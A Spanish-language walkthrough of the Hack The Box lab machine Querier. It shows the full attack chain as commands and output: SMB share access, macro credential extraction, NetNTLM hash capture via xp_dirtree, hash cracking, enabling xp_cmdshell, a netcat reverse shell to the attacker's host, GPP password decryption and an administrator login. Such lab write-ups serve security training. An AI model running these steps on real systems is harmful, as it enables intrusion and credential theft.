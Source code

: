10.10.10.125 - Querier

![Querier](https://user-images.githubusercontent.com/96772264/202670219-d31b9300-527b-4c64-969f-b9527550057e.png)

----------------------
# Part 1: Enmeración
 
Puertos abiertos 135(rpc),139,445(smb),1433,5985. Nmap nos dice que:  
- 1433 -> puerto Microsoft SQL . Nombre del sistema QUERIER, Dominio HTB.LOCAL  
- Rpc sin credenciales ```rpcclient -U "" 10.10.10.125 -N``` -> Acceso denegado  

Como está el smb abierto miraremos si podemos acceder a algún archivo.
```console
└─$ smbmap -H 10.10.10.125 -u "test"
	Reports                        READ ONLY
└─$ smbclient "//10.10.10.125/Reports" -N
smb: \> dir
Currency Volume Report.xlsm         A    12229  Sun Jan 27 23:21:34 2019
smb: \> get "Currency Volume Report.xlsm"
```

------------------------------
# Part 2: Extrayendo creds de las macros

Un archivo xlsm es un archivo de hojas de texto (el excel de toda la vida), que e abre con libreoffice. Abrimos la hoja de calculo pero aparte de ques está vacía 
dice que tiene macros (código)

![querier1](https://user-images.githubusercontent.com/96772264/202670532-f9871866-0f10-453e-9ecd-dfde1143e3a1.PNG)

Las macros se leen con una herramienta llamada olevba:  ```sudo -H pip install -U oletools[full]```
```console
└─$ olevba "Currency Volume Report.xlsm"
Private Sub Connect()
Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset
Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;
Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10; conn.Open

If conn.State = adStateOpen Then
  MsgBox "connection successful" 
  Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close
End If
```
------------------------------
# Part 3: mssql 

Según esto se está conectando a una base de datos sql ("volume") con las creds *"reporting:PcwTWTHRwryjc$c6"* para meter esos datos en la hoja de calculo.
Como son creds de una base de datos, podemos usarlas nosotros tambien ya que tenemos un puerto que usa windowssql:
```console
└─$ /usr/bin/impacket-mssqlclient reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1

# No, tenemos permiso así que no hay comandos, pero a lo mejor podemos capturar un hash
SQL> xp_dirtree "\\10.10.14.12\carpeta"
└─$ /usr/bin/impacket-smbserver carpeta $(pwd) -smb2support
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:b5d17ef4aa88056ad273977e56a155fc:010100000000000080407d3ce8f9d8016f28bccc5409518100000000010010006f006100710055006900550049004900030010006f0061007100550069005500490049000200100058005a005000540078005500610057000400100058005a005000540078005500610057000700080080407d3ce8f9d801060004000200000008003000300000000000000000000000003000009b175c468e21ef38d90e68aba21eadedb3bfaec84eab5a5cf439e8d79e35d69e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003200000000000000000000000000
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
corporate568     (mssql-svc)

└─$ /usr/bin/impacket-mssqlclient mssql-svc:'corporate568'@10.10.10.125 -windows-auth
SQL> sp_configure "show advanced options", 1; reconfigure
SQL> sp_configure "xp_cmdshell",1; reconfigure
SQL> xp_cmdshell "whoami"
querier\mssql-svc
```
Como ya tengo ejecución remota de comandos, lo más comodo es traerse un binario nc.exe a donde se está ofreciendo la carpeta por smb para subirlo/ejecutarlo en la 
máquina víctima. 

------------------------------
# Part 4: Dentro del sistema, escalando privilegios

```console
SQL> xp_cmdshell \\10.10.14.12\carpeta\nc.exe -e cmd.exe 10.10.14.12 443
└─$ rlwrap nc -lnvp 443
C:\Windows\system32>
C:\Users\mssql-svc\Desktop> copy \\10.10.14.12\carpeta\enumeracion_windows.bat
```
El script nos encontró una ruta groups.xml:  
> *C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml*.   
Ahí había una clave cpassword que se rompe con ggp-decrypt:  
```console
└─$ gpp-decrypt CiDUq6tbrBL1m/js9DmZNIydXpsE69WB9JrhwYRW9xywOz1/0W5VCUz8tBPXUkk9y80n4vw74KeUWc2+BeOVDQ
MyUnclesAreMarioAndLuigi!!1!

└─$ impacket-wmiexec 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
C:\>whoami
querier\administrator
```
